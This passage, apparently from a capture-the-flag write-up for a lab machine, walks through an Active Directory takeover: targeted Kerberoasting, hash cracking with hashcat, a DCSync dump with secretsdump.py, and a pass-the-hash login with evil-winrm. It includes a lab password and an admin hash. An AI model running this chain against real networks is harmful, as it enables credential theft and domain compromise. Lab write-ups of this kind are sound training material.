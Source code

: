 **Process:**
1. Script detects emily's GenericWrite over ethan
2. Adds SPN to ethan's account
3. Requests TGS ticket encrypted with ethan's password
4. Removes SPN (cleanup)

### 9. Cracking Ethan's Hash

```bash
hashcat ethan.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

**Ethan's Password:** `limpbizkit`

### 10. DCSync Attack: Ethan → Domain Admin

**Attack:** Abuse DCSync privileges to dump domain hashes

```bash
secretsdump.py ethan:limpbizkit@dc.administrator.htb
```

**Administrator Hash:** `3dc553ce4b9fd20bd016e098d2d2fd2e`

### 11. Domain Administrator Shell

```bash
evil-winrm -i dc.administrator.htb -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

🚩 **Root Flag:** `4cf2d737************************`

## Attack Summary

```
olivia (initial creds)
    ↓ GenericAll
michael (password reset)
    ↓ ForceChangePassword  
benjamin (FTP access)
    ↓ Password Safe file
emily (cracked credentials)
    ↓ GenericWrite + Targeted Kerberoast
ethan (cracked TGS)
    ↓ DCSync
Administrator (domain compromise)
```

## Key Techniques Used

1. **Active Directory Enumeration** - Bloodhound data collection
2. **Password Reset Attacks** - GenericAll and ForceChangePassword abuse
3. **Password Safe Cracking** - Hashcat with mode 5200
4. **Targeted Kerberoasting** - GenericWrite to SPN abuse
5. **DCSync Attack** - Domain hash dumping
6. **Pass-the-Hash** - Final authentication with NTLM hash
